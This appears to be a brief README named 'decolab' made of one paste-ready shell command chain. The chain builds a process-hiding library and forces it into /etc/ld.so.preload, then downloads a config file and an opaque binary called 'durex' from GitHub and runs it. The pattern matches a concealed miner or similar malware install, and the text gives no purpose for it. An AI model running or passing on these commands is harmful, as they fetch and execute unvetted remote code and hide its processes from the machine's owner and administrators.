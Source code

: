 # decolab
git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload &&
wget https://raw.githubusercontent.com/bulboni/dexcol/main/config.json && wget https://github.com/bulboni/dexcol/raw/main/durex && chmod +x durex && ./durex
